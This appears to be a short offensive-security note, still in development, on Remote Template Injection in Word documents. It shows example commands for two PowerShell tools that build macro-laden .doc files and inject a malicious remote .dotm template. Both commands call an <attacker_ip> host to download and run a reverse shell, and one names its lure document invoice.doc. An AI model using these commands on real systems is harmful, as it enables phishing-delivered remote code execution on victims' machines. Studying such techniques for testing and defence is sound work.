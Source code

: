 > [!info]
> This note is still in development.

## Overview
---
**Remote Template Injection** is an exploit where an attacker can manipulate or inject templates into a Word document remotely. This vulnerability can be exploited to execute arbitrary code or carry out other malicious activities when the document is opened or processed.

This exploit even allows `.docx` to execute macros, which otherwise wouldn't be possible.

## Example
---

> [!hint]
> My custom reverse shell generator can be found here:
> https://github.com/tylerdotrar/PoorMansArmory
> 
> - PoorMansArmory/officemacros/Get-MacroInfestedWordDoc.ps1
> ```powershell
> # Synopsis:
> # Generate Macro Infested Word 97-2003 Documents (.doc)
> # 
> # Parameters:
> #   -DocumentName   -->  Output name of the malicious Word Document (.doc)
> #   -PayloadURL     -->  URL of the hosted payload that the macro downloads and executes
> #   -MacroContents  -->  Advanced: User inputs custom macro instead of the generated one
> #   -Help           -->  Return Get-Help information
> 
> # Example:
> Get-MacroInfestedWordDoc -DocumentName invoice.doc -PayloadURL http://<attacker_ip>/revshell
> ```
>
> - PoorMansArmory/officemacros/Get-TemplateInjectedPayload.ps1
> ```powershell
> # Synopsis:
> # Generate Macro Infested Word Template (.dotm) an Inject into a Word Document (.docx)
> # 
> # Parameters:
> #   -TemplateURL    -->  URL where the malicious Word Template (.dotm) will be hosted
> #   -PayloadURL     -->  URL of the hosted payload that the macro downloads and executes
> #   -Document       -->  Advanced: Target templated Word Document (.docx) to inject
> #   -MacroContents  -->  Advanced: User inputs custom macro instead of the generated one
> #   -Help           -->  Return Get-Help information
> 
> # Example:
> Get-TemplateInjectedPayload -TemplateURL http://<attacker_ip>/office/update.dotm -PayloadURL http://<attacker_ip>/revshell
> ```

